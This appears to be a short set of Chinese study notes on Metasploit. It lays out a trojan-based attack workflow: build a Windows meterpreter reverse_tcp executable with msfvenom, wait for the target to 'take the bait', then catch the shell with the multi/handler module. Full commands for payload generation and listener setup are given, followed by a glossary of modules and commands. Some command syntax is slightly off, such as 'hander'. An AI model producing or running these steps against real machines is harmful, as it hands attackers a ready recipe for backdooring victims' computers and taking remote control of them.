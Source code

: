 ### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试
1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 
### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。
##### 渗透成功后的操作：
-  meterpreter
-  shell
##### 主要工具：
- `msfvenom`	可以生成多平台的木马
##### 主要模块：
-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块
##### 主要命令：
- `use <moudule name> | <moudul index>`使用模块
- `show options` 列出当前使用的模块的配置参数
- `set <key>=<value>` 配置模块个属性的值
- `run` 一切准备就绪，开始监听